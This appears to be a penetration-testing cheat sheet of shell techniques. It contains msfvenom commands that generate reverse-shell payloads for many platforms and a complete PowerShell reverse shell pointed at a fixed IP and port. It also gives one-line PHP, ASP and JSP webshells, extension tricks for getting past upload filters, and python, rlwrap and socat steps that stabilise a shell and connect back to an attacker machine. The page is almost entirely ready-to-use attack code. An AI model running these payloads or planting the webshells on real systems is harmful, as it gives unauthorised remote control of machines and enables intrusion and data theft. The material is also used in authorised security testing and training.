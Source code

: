 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
#### HTA
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
```

#### DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > shell.dll
```

## Online Generator
<https://www.revshells.com/>
<https://weibell.github.io/reverse-shell-generator/>


## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## Upload Bypass

### Rename the extension 
```
PHP: phtml, .php, .php3, .php4, .php5, and .inc

ASP: asp, .aspx

PERL: .pl, .pm, .cgi, .lib

JSP: .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion: .cfm, .cfml, .cfc, .dbm
```


## Shell Stabilisation

#### Technique 01: Python
```
➤ Step 01 : uses Python to spawn a better featured bash shell
python -c 'import pty;pty.spawn("/bin/bash")'

➤ Step 02: this will give us access to term commands such as clear
export TERM=xterm

➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

➤ Example: 
kiosec@lab:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.0.1] from (unknown) [10.1.1.1] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
user@box:~$ export TERM=xterm
export TERM=xterm
user@box:~$ ^Z
[1]+ Stopped            sudo nc -lvnp 443
kiosec@lab:~$ stty rauw -echo; fg
nc -lvnp 443

user@box:~$ whoami
user
user@box:~$ ^C
user@box:~$
```

#### Technique 02: Rlwrap
rlwrap gives a more fully featured shell including access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
This technique is particularly useful with the Windows shell.
```
➤ Step 01: Install rlwrap (not installed by default on the kali)
apt install rlwrap

➤ Step 02: Invoke the listener.
rlwrap nc -lnvp <port> 

[additional steps for Linux target]
➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg
```

#### Technique 3: Socat
Restricted to Linux target
```
➤ Prerequisite: Obtain Socat on the linux target.

➤ Step 01: Transfer a socat static compiled binary (e.g., using python http.server)
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

➤ Step 02: On the Kali
socat TCP-L:<port> FILE:`tty`,raw,echo=0

➤ Step 03: execute the reverse shell on the target.

➤ Step 04: Once connected to the target, execute the sepcial socal command in order to 
socat TCP:<kali-attacker-ip>:<kali-attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
